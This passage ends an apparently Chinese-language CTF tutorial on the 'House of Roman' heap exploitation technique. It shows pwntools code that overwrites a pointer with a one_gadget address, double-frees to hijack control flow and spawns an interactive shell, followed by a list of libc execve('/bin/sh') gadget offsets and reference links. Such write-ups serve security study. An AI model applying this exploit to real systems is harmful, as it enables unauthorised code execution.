 ```python
over += "\xa4\xd2\xaf"    # 0xf02a4
# over += "\x47\xe1\xaf"    # 0xf1147
Write(0, over)

Free(5)
Free(5)

io.recvuntil(" ***")
io.sendline("uname -a")
data = io.recvuntil("GNU/Linux", timeout=2)
if "Linux" in data:
    io.interactive()
else:
    io.close()

'''
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```

## 参考资料

+ romanking98. [House of Roman](https://gist.github.com/romanking98/9aab2804832c0fb46615f025e8ffb0bc)
+ romanking98. [bin, libc & exp](https://github.com/romanking98/House-Of-Roman)
+ hackedbylh. [House of Roman 实战](https://xz.aliyun.com/t/2316#toc-0)